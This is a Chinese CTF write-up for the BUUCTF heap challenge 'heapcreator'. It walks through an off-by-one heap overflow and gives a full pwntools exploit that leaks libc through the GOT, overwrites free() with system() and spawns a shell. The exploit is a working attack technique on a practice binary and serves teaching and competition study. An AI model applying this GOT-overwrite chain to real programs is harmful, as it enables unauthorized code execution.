






 [[BUUCTF](https://buuoj.cn/challenges#hitcontraining_heapcreator)]hitcontraining_heapcreator

`UAF`|`Off-By-One`|`堆溢出`

对应`libc`版本`libc6_2.23-0ubuntu9_amd64`

```shell
[*] '/home/bamuwe/heapcreator/heapcreator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fc000)
```

```shell
bamuwe@bamuwe:~/heapcreator$ ./heapcreator
--------------------------------
          Heap Creator
--------------------------------
 1. Create a Heap
 2. Edit a Heap
 3. Show a Heap
 4. Delete a Heap
 5. Exit
--------------------------------
Your choice :
```

```c
unsigned __int64 edit_heap()
{
  int v1; // [rsp+Ch] [rbp-14h]
  char buf[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 >= 0xA )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&heaparray + v1) )
  {
    printf("Content of heap : ");
    read_input(*(*(&heaparray + v1) + 1), **(&heaparray + v1) + 1LL);	//漏洞点
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
> 漏洞函数
```python
def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))
```

> 交互函数

思路：

通过`off-by-one`构造`fakechunk`,利用`fakechunk`泄露`libc`，更换`free()`地址为`system()`，得到`shell`

```python
add(0x18,b'0000')   		#0
add(0x10,b'1111')   		#1
add(0x10,b'2222')   		#2
add(0x10,b'/bin/sh\x00')    #3
edit(0,b'A'*0x18+p8(129))
```



> 运行后截图

可以发现已经溢出了一字节`（0x81）`，将这个`chunk1`释放，再申请回来就能够通过这个`chunk1`编辑其他`chunk`的内容

```python
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
```



> 运行后截图



对比可以更改了原来的`BK`伪造出`fake_chunk`，即此时的`chun2`已经是`free()`的地址



继续计算出`system()`的值并且替换`free()`

```python
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
```



> 测试用多打印一次`chunk2`的内容

再`free(3)`就能构造出`system(/bin/sh)`得到`shell`

exp:

```python
from pwn import *
# context.log_level = 'debug'
io = gdb.debug('./heapcreator')
elf = ELF('./heapcreator')
lib = ELF('#####')

def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))

add(0x18,b'0000')   #chunk0
add(0x10,b'1111')   #chunk1
add(0x10,b'2222')   #chunk2/fake_chunk
add(0x10,b'/bin/sh\x00')    #chunk3

edit(0,b'A'*0x18+p8(129))
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
free(3)
io.interactive()
```

tips:

关于`libc_base`计算小技巧

```python
success(hex(free_addr))
libc_base = free_addr-0x83a70	#0x83a70从何而来？
```



